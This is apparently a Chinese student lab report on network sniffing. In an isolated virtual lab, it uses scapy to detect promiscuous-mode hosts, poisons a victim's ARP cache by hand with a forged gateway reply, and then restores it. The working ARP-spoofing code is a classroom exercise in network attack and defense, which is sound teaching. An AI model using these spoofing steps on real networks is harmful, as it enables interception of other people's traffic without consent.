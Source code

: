 ## 实验四 网络监听

### 实验准备

---

拓扑图如下：

![](img/topology.png)

网络中的节点基本信息如下：

* 攻击者主机

  * 08:00:27:22:46:4f/eth0

  * 172.16.222.124

    ![](img/kali-attack.png)

* 受害者主机

  * 08:00:27:22:1a:fc/enp0s3

  * 172.16.222.133

    ![](img/debian-victim.png)

* 网关

  * 08:00:27:0b:3b:42/enp0s10

  * 172.16.222.1

    ![](img/gataway.png)

#### 一、检测局域网中的异常终端

```shell
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
```

![](img/victim-iplink.png)

```shell
# 在攻击者主机上开启 scapy
sudo scapy
```

![](img/scapy.png)

```python
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.222.133")
```

![](img/promiscping.png)

此时并没有收到回应。

**注意：此时不可在受害者主机上开启抓包，因为抓包就是开启了混杂模式，从而就会收到回应。**

```shell
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show enp0s3
```

![](img/promisc-on.png)

```python
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.222.133")
```

![](img/promiscping2.png)

可以发现，受害者主机开启混杂模式后，就可以收到回复。

> 混杂模式：接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址。
>
> promiscping：Send ARP who-has requests to determine which hosts are in promiscuous mode

#### 二、手工单步“毒化”目标主机ARP缓存

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![](img/arpbroadcast.png)

```python
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![](img/gw_mac.png)

网关MAC地址为`08:00:27:0b:3b:42`

```python
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.222.133
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.133", hwdst="08:00:27:22:46:4f")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```shell
ip neigh
```

![](img/arp.png)

可以发现网关的MAC已经变成了攻击者主机的MAC。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.222.1", hwsrc="08:00:27:0b:3b:42", pdst="172.16.222.133", hwdst="08:00:27:22:1a:fc")
sendp(restorepkt1, count=100, inter=0.2)
```

![](img/restorepkt1.png)

此时再次查看受害者主机的ARP缓存

![](img/arp2.png)

### 参考资料

---

[实验 · 网络安全 (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

